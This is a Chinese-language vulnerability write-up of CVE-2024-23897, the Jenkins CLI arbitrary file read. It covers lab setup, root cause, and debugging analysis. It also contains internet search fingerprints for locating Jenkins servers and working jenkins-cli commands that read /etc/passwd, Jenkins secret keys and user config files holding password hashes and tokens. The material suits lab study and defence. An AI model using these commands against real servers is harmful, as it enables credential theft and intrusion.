 # CVE-2024-23897

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** **描述：**`Jenkins 通过 CLI 任意文件读取漏洞`



## 0x00 空间搜索引擎相关查询语法

```
【FOFA】
icon_hash="1265477436"

【鹰图】
web.icon=="f49c4a4bde1eec6c0b80c2277c76e3db"

【Quake】
favicon: "f49c4a4bde1eec6c0b80c2277c76e3db"

【零零信安】
icon=f49c4a4bde1eec6c0b80c2277c76e3db
```

## 0x01 环境搭建

执行以下命令启动 Jenkins 服务器 2.441：

```jsx
git clone https://github.com/vulhub/vulhub
cd vulhub/jenkins/CVE-2024-23897
docker compose up -d
```

`http://your-ip:8080/` 服务器启动后即可通过访问Jenkins服务器。默认管理员的用户名和密码是`admin`和`vulhub`。

## 0x02 漏洞原理

Jenkins提供了一个命令行的接口，用户可以下载一个命令行客户端jenkins-cli.jar到本地，并调用该客户端来执行一些Jenkins的功能。本来是一个很常见的功能，但设计中神奇的是，用户使用jenkins-cli.jar时，命令行是传到服务端解析的，而不是在jenkins-cli.jar里解析。

这就导致了一个问题，因为Jenkins服务端解析命令行时使用了一个第三方库[args4j](https://github.com/kohsuke/args4j)，这个库实现了Linux中一个常见的功能——如果一个参数是以`@`开头，则会被自动认为是一个文件名，文件内容会被读取作为参数。

因为Jenkins是在服务端解析的命令行参数，又支持args4j的这个特性，所以造成文件读取漏洞。

要调试该漏洞，只需在Jenkins启动时设置一个环境变量“DEBUG=1”，即可开启JVM的远程调试端口。如果使用Vulhub环境，直接连接5005端口进行远程调试。

**`注意：`**如果该“允许匿名读取访问”配置已打开，则可以读取目标文件的完整内容，否则只能读取一行。

## 0x03 影响范围

```text
< 2.441
```

## 0x04 Jenkins权限系统

正常情况下，cli这个功能的权限控制方案和Jenkins默认权限方案相同。

jenkins的四种鉴权方式：

- Anyone can do anything 没有任何权限认证，匿名用户即可登录后台执行Groovy脚本
- Legacy Mode 旧鉴权模式
- Logged-in users can do anything 任意登录的用户可以做任何事，这是默认的权限选项
- Matrix-based security 细颗粒度权限控制，需要安装插件才支持这个鉴权模式

![Untitled](image/Untitled.png)

`PS：`经过测试，如果jenkins系统，关闭了匿名用户可读功能，那么大部分cli命令将无法使用，会出现"ERROR: anonymous is missing the Overall/Read permission"的错误。

## 0x04 可用的jenkins命令

**【查看单行文件内容】**

在未开启匿名访问的情况下可用命令

```python
disable-job
enable-job
help
keep-build
restart
safe-shutdown
shutdown
who-am-i
```

**【查看完整文件内容】**

**在开启匿名访问后的情况下可用命令**

```
connect-node
delete-job
delete-node
disconnect-node
offline-node
online-node
reload-job
disable-plugin  # 命令需要开启【任何人都可以做任何事】，才能使用
```

![Untitled](image/Untitled%201.png)

## 0x05 漏洞利用

### 下载Jenkins-cli工具

下载地址：http://localhost:8080/jnlpJars/jenkins-cli.jar

### 要读取的文件

- `/var/jenkins_home/users/*/config.xml` 保存所有用户的信息，包括密码、种子、Token等
- `/var/jenkins_home/secret.key` 保存Remember-Me Cookie中的一部分
- `/var/jenkins_home/secrets/master.key` 作为AES解密密钥
- `/var/jenkins_home/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac` 作为计算hmac签名时的Key

### 正式利用

**读取passwd文件内容**

```java
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/etc/passwd"
```

![Untitled](image/Untitled%202.png)

**获取Jenkins根目录**

```python
# 包含的是当前进程的环境变量
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![Untitled](image/Untitled%203.png)

```python
# 包含的是当前进程的cmd启动命令行
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/cmdline"
```

![Untitled](image/Untitled%204.png)

**读取secrets.key文件**

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![Untitled](image/Untitled%205.png)

**读取master.key文件**

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![Untitled](image/Untitled%206.png)

**读取users.xml文件**

获取用户列表和每个用户信息所在的文件目录

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/var/jenkins_hom
e/users/users.xml"
```

![Untitled](image/Untitled%207.png)

**读取config.xml文件**

config.xml文件是在admin用户所在目录下的

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/var/jenkins_home/users/admin_6181681220423834154/config.xml"
```

![Untitled](image/Untitled%208.png)

正常情况下，我们应该能拿到三个信息

- 用户密码，使用JBCript哈希编码
- 用户Token，使用sha256哈希编码
- 用户种子，这个值在Remember-Me Cookie中会用到

![Untitled](image/Untitled%209.png)

## 0x06 漏洞分析

![Untitled](image/Untitled%2010.png)

继续向下走，到了解析命令行参数位置

![Untitled](image/Untitled%2011.png)

if这里的判断代码和修复代码部分有点关联，修复部分的代码应该就是为了防止进入这个逻辑的。getAtSyntax默认是true的，因此我们进入跟入if逻辑中

```java
this.parserProperties.getAtSyntax()
```

![Untitled](image/Untitled%2012.png)

发现取了@后面的字符串作为文件名读取后作为result返回

![Untitled](image/Untitled%2013.png)

输入如下命令

```java
java -jar jenkins-cli.jar -s [http://localhost:8081/](http://localhost:8081/) -http who-am-i "@/etc/passwd"
```

再次进行调试,发现会把`/etc/passwd`内容读取出来

![Untitled](image/Untitled%2014.png)

再接着向下看，读取出来的内容作为异常抛了出来，从而达到了任意文件读取

![Untitled](image/Untitled%2015.png)